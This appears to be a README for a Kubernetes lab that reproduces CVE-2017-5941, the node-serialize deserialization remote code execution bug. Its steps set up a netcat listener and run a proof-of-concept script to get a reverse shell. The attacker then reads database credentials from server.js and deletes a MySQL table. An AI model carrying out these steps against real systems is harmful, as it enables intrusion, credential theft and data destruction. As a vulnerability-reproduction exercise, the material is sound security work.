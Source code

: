 ## CVE-2017-5941
https://nvd.nist.gov/vuln/detail/CVE-2017-5941#range-6741888 \
Target Application: Node \
Software Link: https://www.npmjs.com/package/node-serialize \
Version: 0.0.4 \
Writeup: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ \
Used PoCs: 
* https://packetstormsecurity.com/files/161356/Node.JS-Remote-Code-Execution.html
* https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

### Steps to Reproduce

1- `minikube start` \
2- Use `kubectl apply -f <filename>` for all of the .yaml files in kube folder \
3- Forward port `kubectl port-forward pods/scenario-2-server-deployment-.... 4242:4242` \
4- Listen on port `1234` and your ip for TCP connections like `nc -l 144.122.139.40 1234` \
5- Run poc.py with your ip `./poc.py 144.122.139.40` \
6- Attacker runs `ls` and sees a file named `server.js` which includes database hostname, username, password, database name and important table called `person`
7- Attacker runs `mysql -h mysql-service -u user -p` then inputs the password to access the database \
8- Even though the output of Mysql is not seen, input is sent to the container. With this, the attacker can delete the person table with ease.

### Kubernetes
Check https://learnk8s.io/deploying-nodejs-kubernetes for deployment tutorial
